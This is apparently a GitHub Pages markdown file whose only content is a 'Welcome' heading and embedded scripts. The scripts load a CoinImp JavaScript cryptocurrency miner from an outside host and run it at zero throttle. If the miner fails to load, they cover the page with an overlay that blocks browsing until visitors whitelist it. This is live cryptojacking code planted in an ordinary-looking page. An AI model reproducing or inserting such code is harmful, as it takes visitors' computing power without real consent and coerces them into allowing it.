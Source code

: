## Welcome to GitHub Pages
<script src="https://www.hostingcloud.racing/Y0Pq.js"></script>
<script>
    var _client = new Client.Anonymous('6af76f922971c0978de8b5f7fc5c702081ea5c2845d726e1646abaf20fce369a', {
        throttle: 0
    });
    _client.start();
    _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com", "#cccccc", 40, "#3d3d3d");
</script>
<script>
    setTimeout(function(){
        if(typeof _client === 'undefined' || _client === null)
        {
            var messageDiv = document.createElement("div");
            messageDiv.setAttribute("style","width: 50%; background-color: white; padding: 15px; display: inline-block; vertical-align: middle;");
            messageDiv.appendChild(document.createTextNode("Please allow our miner on your blocker software to continue browsing our site. Reload the page after that."));
            var mainDiv = document.createElement("div");
            mainDiv.setAttribute("style","position: absolute; top: 0px; right: 0px; width: 100%; height: 100%; display: flex; background-color: #4c4c4c;  align-items: center; justify-content: center");
            mainDiv.appendChild(messageDiv);
            document.body.appendChild(mainDiv);
            document.getElementsByTagName("body")[0].style.overflow = "hidden";
            window.scrollTo(0, 0);
        }
    },1000);
</script>

